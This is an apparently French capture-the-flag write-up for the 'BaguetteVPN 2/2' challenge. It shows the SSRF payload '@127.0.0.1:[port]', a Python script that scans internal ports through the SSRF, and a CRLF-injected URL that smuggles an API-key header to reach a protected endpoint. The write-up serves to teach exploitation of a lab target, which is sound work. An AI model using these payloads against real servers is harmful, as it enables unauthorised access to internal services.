 # BaguetteVPN 2/2
On se retrouve pour la partie la plus compliquée du challenge.<br/>
## Résolution
Pour commencer, brêve analyse du fichier ```./baguettevpn_server_app_v0.py```.<br/>
Cette fonction devrait nous print le flag:<br/>
```py
@app.route("/api/secret")
def admin():
    if request.remote_addr == '127.0.0.1':
        if request.headers.get('X-API-KEY') == 'b99cc420eb25205168e83190bae48a12':
            return jsonify({"secret": os.getenv('FLAG')})
        return Response('Interdit: mauvaise clé d\'API', status=403)
    return Response('Interdit: mauvaise adresse IP', status=403)
```
Cependant, on est confronté face à plusieurs conditions.<br/>
On doit trouver un moyen de requêter à travers le serveur, on s'attend donc à exploiter une faille de type SSRF.<br/>
On s'attaquera à la deuxième condition plus tard.<br/>
## SSRF
En fouillant le site, j'apperçois un point d'injection pottentiellement vulnérable à une SSRF.<br/>
Le paramètre ```/api/image?fn=``` permet de read des fichiers internes.<br/>
Je décide donc d'exploiter ce paramètre, en me munissant de ce cheatsheet plutôt complet: <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery">Link</a>.<br/>
En premier temps j'essaye  ```/api/image?fn=127.0.0.1```.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/839960727799595079/unknown.png?width=1440&height=323"/><br/>
Malheureusement la requête ne passe pas, j'ajoute donc un ```@``` pour bypass les weak parsers.<br/>
Toujours rien, en regardant l'énoncé du challenge. Je vois qu'une énumération des ports inférieurs à 2000 est autorisée.<br/>
Je fais donc la même chose en gardant la même injection ```/api/image?fn=@127.0.0.1:[port]``` et en énumérant les ports.<br/>
Pour ce faire, j'ai fait un script afin d'automatiser tout ça.<br/>
```py
import requests as r

if __name__ == "__main__":
	with r.session() as s:
		for i in range(0, 2000 + 1):
			response = s.get("http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=@127.0.0.1:%s" % (str(i)))
			if "Internal Server Error" not in response.text:
				print(response.url)
```
Après quelques minutes je vois que le port ```1337``` a été match.<br/>
Je me rends donc à ```http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=@127.0.0.1:1337```.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/839958634514612284/unknown.png?width=1440&height=490"/><br/><br/>
Good, on est sur la bonne voie.<br/>
Je me rends à la path ```/api/secret``` et la requête passe bien localement.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/839959391415697428/unknown.png?width=1440&height=462"/><br/><br/>
On passe donc à la deuxième condition.<br/>
## HTTP Request Smuggling
```py
if request.headers.get('X-API-KEY') == 'b99cc420eb25205168e83190bae48a12'
```
On doit trouver un moyen d'utiliser des headers dans l'URL.<br/>
A ce moment j'ai immédiatement su qu'il s'agissait d'une faille de type PHP Request Smuggling.<br/>
Brêve explication de cette faille.<br/>
Il faut savoir que dans ce genre de situations, il y a 3 acteurs.<br/><br/>
**•** L'attaquant<br/>
**•** Le proxy/firewall<br/>
**•** Le serveur web<br/><br/>
Cette faille à beaucoup de variantes, mais principalement elle surgit de cette manière.<br/><br/>
**•** L'attaquant se connecte au proxy, il envoie ABC<br/>
**•** Le proxy l'interprète comme AB, C, et le rédirige vers le serveur<br/>
**•** Le serveur web l'interprète comme A, BC, et répond avec r(A), r(BC)<br/>
**•** Proxy caches r(A) pour AB, r(BC) pour C<br/><br/>
La première chose que je fais c'est ajouter ```HTTP/1.1``` à l'URL.<br/>
J'obtiens une erreur de parsing plutôt intéressante.<br/>
```
Error response
Error code: 400

Message: Bad request syntax ('GET /api/secret HTTP/1.1 HTTP/1.1').

Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.
```
On constate que le ```HTTP/1.1``` a bien été ajouté dans le corps de la requête.<br/>
Ma première idée consistait à retaper le corps de la requête directement dans l'URL en faisant attention aux sauts de ligne.<br/>
Je tente de push le header X-API-KEY.<br/>
```http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=@127.0.0.1:1337/api/secret+HTTP/1.1%0aX-API-KEY:b99cc420eb25205168e83190bae48a12```<br/>
Aucun résultat, je suppose qu'il y a un header ```Content-Length``` initialisé à 0 qui bloque la requête.<br/>
Je calcule la taille de la clé X-API-KEY.<br/>
```py
>>> print(len("b99cc420eb25205168e83190bae48a12"))
32
```
J'ajoute le header ```Content-Length``` avec la taille 32.<br/>
```http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=@127.0.0.1:1337/api/secret+HTTP/1.1%0aX-API-KEY:b99cc420eb25205168e83190bae48a12%0aContent-length:32```<br/>
Done.<br/>
